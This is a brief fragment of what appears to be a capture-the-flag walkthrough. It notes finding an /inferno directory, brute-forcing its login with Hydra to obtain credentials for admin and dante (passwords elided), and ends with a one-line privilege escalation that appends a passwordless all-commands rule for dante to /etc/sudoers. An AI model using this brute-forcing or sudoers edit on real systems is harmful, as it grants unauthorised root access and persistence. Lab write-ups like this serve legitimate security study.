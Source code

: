 # Foothold
Initially we discover the `/inferno` directory. With a little help from Hydra we can brute force this and get credentials
`admin:<SNIP>`


`dante:<SNIP>`

echo 'dante ALL=(ALL) NOPASSWD: ALL' | sudo /usr/bin/tee -a /etc/sudoers